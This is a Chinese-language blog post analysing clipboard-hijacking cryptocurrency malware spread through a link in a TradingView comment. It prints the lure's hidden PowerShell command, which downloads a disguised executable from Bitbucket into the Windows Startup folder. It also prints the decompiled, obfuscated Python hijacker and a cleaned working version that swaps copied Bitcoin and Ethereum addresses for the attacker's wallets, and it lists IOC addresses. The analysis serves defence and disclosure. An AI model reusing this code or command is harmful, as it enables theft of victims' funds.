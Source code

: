 ```yaml
---
title: "Clipboard hijacking cryptocurrency malware on tradingview.com"
date: 2020-08-16
categories:
- 資安
tags:
- security
---
```


最近在 tradingview.com 上面看到這篇 Idea [EOS - footprints of institutional money](https://www.tradingview.com/chart/EOSUSDT/SDsMZhix-EOS-footprints-of-institutional-money/)，看起來像是正常的分析趨勢走向的 Idea，但是下面留言有一個連結 `mycryptorush.com/signals`，說是可以得到免費的 bitcoin 和交易趨勢訊號。

{% img /images/clipboard-hijack-1.png 'tradingview idea' %}

點下去其實是導向 `tinyurl.com/cryptorushsignals`，這個短網址又是導向 `https://bbuseruploads.s3.amazonaws.com/7e1f7e0b...`，會下載 `CryptoRushSignals.zip` 下來。看起來就很可疑，明明看起來是要去一個網站，卻載了檔案下來。解壓縮該 zip 檔之後有兩個檔案 `HOWTOUSE.txt` 和 `CryptoRushSignals.run.lnk`。

```plain HOWTOUSE.txt
Open CryptoRushSignals.run, this will open up a website were you can register.
It then automatically will open up an excel sheet with the live current signals.
```

純文字的說明文件，叫你執行 `CryptoRushSignals.run`，真的去執行之後，會跳出瀏覽器瀏覽 `https://t.me/MyCryptoradar`，讓你加入一個 telegram 群組，就可以收到一些指標數據的變化通知，裡面現在有 400 多人。

{% img /images/clipboard-hijack-2.png 'tradingview idea' %}

除了打開瀏覽器叫你加群組之外，他還秘密執行了下面這段 payload

```powershell
"C:\windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.SecurityProtocolType]::Tls12; Start-Process -FilePath "https://t.me/MyCryptoradar; Invoke-WebRequest -Uri "https://bitbucket.org/cryptorushh/cryptorush/downloads/pcmoni.png" -OutFile C:\Users\$env:UserName\AppData\Roaming\Microsoft\Windows\Start` Menu\Programs\Startup\pclp.exe
```

基本上就是去 bitbucket 下載 `https://bitbucket.org/cryptorushh/cryptorush/downloads/pcmoni.png` 這個 png，然後放到開機自動執行的路徑，而且這個也不是 png，他就是一隻 PE 執行檔。

{% img /images/clipboard-hijack-3.png 'tradingview idea' %}

稍微看一下那隻 PE 執行檔後，發現他是用 py2exe 包的，那就用 [unpy2exe](https://github.com/matiasb/unpy2exe) 拆回 pyc，再用 [uncompyle6](https://github.com/rocky/python-uncompyle6) 就可以拆出原本的 python script 了。

```python 8.61.py
# uncompyle6 version 3.7.2
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.15 (default, Dec 23 2019, 14:00:59) 
# [GCC 4.2.1 Compatible Apple LLVM 10.0.1 (clang-1001.0.46.4)]
# Embedded file name: 8.61.py
# Compiled at: 2020-08-15 23:23:49
from __future__ import print_function
import sys
oo000 = sys.version_info[0] == 2
ii = 2048
oOOo = 7

def O0(ll_opy_):
    o0O = ord(ll_opy_[(-1)])
    iI11I1II1I1I = ll_opy_[:-1]
    oooo = o0O % len(iI11I1II1I1I)
    iIIii1IIi = iI11I1II1I1I[:oooo] + iI11I1II1I1I[oooo:]
    if oo000:
        o0OO00 = unicode().join([ unichr(ord(oo) - ii - (i1iII1IiiIiI1 + o0O) % oOOo) for i1iII1IiiIiI1, oo in enumerate(iIIii1IIi) ])
    else:
        o0OO00 = str().join([ chr(ord(oo) - ii - (i1iII1IiiIiI1 + o0O) % oOOo) for i1iII1IiiIiI1, oo in enumerate(iIIii1IIi) ])
    return eval(o0OO00)


import time, re, pyperclip, subprocess
if 0:
    ooOoO0O00 * IIiIiII11i
if 0:
    oOo0O0Ooo * I1ii11iIi11i

def I1IiI():
    while 0 < 1:
        try:
            o0OOO = None
            if 0:
                ooOo + Oo
            o0OIiiIII111iI = subprocess.Popen(['C:\\windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe', 'Get-Clipboard'], stdout=subprocess.PIPE, startupinfo=IiII)
            o0OOO = str(o0OIiiIII111iI.stdout.read()).strip().decode('utf-8').rstrip(u'\x00')
            if o0OOO != iI1Ii11111iIi and o0OOO != i1i1II:
                if re.match(O0oo0OO0, str(o0OOO)):
                    pyperclip.copy(iI1Ii11111iIi)
                    pyperclip.paste()
                elif re.match(I1i1iiI1, str(o0OOO)):
                    pyperclip.copy(i1i1II)
                    pyperclip.paste()
        except Exception as iiIIIII1i1iI:
            print(iiIIIII1i1iI)

        time.sleep(1)
        if 0:
            o00ooo0 / Oo00O0

    return


if __name__ == O0(u'\u0829\u0862\u0863\u0872\u0867\u0869\u086f\u0861\u0862\u082b\u0805'):
    i1i1II = '0x22f338FC26Ea71EC884256C29103122c4578EE27'
    iI1Ii11111iIi = '14uJZuPNtdtDowpcoGBF14fX3uo57fbvvS'
    O0oo0OO0 = '^[13][a-km-zA-HJ-NP-Z1-9]{25,34}$'
    I1i1iiI1 = '^(0x)?[0-9a-fA-F]{40}$'
    time.sleep(15)
    IiII = subprocess.STARTUPINFO()
    IiII.dwFlags |= subprocess.STARTF_USESHOWWINDOW
    I1IiI()
    if 0:
        o0oooOoO0
    if 0:
        IiIii1Ii1IIi / O0Oooo00.oo00 * I11
    if 0:
        I1111 * o0o0Oo0oooo0 / I1I1i1 * oO0 / IIIi1i1I
# okay decompiling 8.61.py.pyc
```

有稍微混淆過的原始碼，重新命名一下變數就可以了。

```python
from __future__ import print_function
import time, re, pyperclip, subprocess

def main():
    while True:
        try:
            clipboard = None
            process = subprocess.Popen(['C:\\windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe', 'Get-Clipboard'], stdout=subprocess.PIPE, startupinfo=startupinfo)
            clipboard = str(process.stdout.read()).strip().decode('utf-8').rstrip(u'\x00')
            if clipboard != btc_address and clipboard != eth_address:
                if re.match(btc_address_pattern, str(clipboard)):
                    pyperclip.copy(btc_address)
                    pyperclip.paste()
                elif re.match(eth_address_pattern, str(clipboard)):
                    pyperclip.copy(eth_address)
                    pyperclip.paste()
        except Exception as err:
            print(err)
        time.sleep(1)
    return

if __name__ == '__main__':
    eth_address = '0x22f338FC26Ea71EC884256C29103122c4578EE27'
    btc_address = '14uJZuPNtdtDowpcoGBF14fX3uo57fbvvS'
    btc_address_pattern = '^[13][a-km-zA-HJ-NP-Z1-9]{25,34}$'
    eth_address_pattern = '^(0x)?[0-9a-fA-F]{40}$'
    time.sleep(15)
    startupinfo = subprocess.STARTUPINFO()
    startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
    main()
```

他把你剪貼簿裡面符合 bitcoin 或 ethereum 地址格式的通通換成他錢包的位址。

## IOC

* 0x22f338FC26Ea71EC884256C29103122c4578EE27
* 14uJZuPNtdtDowpcoGBF14fX3uo57fbvvS
